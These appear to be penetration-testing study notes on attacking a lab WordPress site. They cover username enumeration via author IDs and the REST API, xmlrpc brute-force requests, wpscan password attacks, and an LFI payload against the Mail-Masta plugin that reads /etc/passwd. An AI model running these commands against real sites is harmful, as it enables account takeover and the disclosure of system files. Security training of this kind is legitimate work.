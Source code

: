 The admin user is usually assigned id 1 we can confirm this with 
`http://blog.inlanefreight.com/?author=1`
#### Existing User
If we send a curl
```shell-session
curl -s -I http://blog.inlanefreight.com/?author=1
```
If the user exists we will get a 302 redirect, if the user does not exist it will 404

### Method 2:
Possible to interact with a JSON endpoint 
Versions after `4.7.1` only disclose whether a user is configured or not
```shell-session
curl http://blog.inlanefreight.com/wp-json/wp/v2/users
```

## Login
Brute Force attack can be preformed against login page or `xmlrpc.php` 

```shell-session
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

If credentials are correct we will Receive and XML response vs a 403 for wrong credentials.
```
<methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
</methodCall>
```
to list methods
## WPSCAN 
Automatic tool to enum wordpress sites.
`--enumerate` flag is used to enumerate.

## Exploiting a vulnerable plugin
WPSCAN has told us about several vulnerabilities 
- WP is out of date (5.3.2)
- Vulnerable Theme (Twenty Twenty)
- Mail-Masta(1.0)
- Google-Review-Slider 

This version of Mail-Masta is vulnerable to LFI through the URL
````shell-session
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
````

## Attacking WordPress Users 
WPscan can be used to brute force usernames and passwords. `--password-attack`
Uses two methods:
	Via wp-Login (slower)
	Via xmlrpc (fast)
```shell-session
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com
```
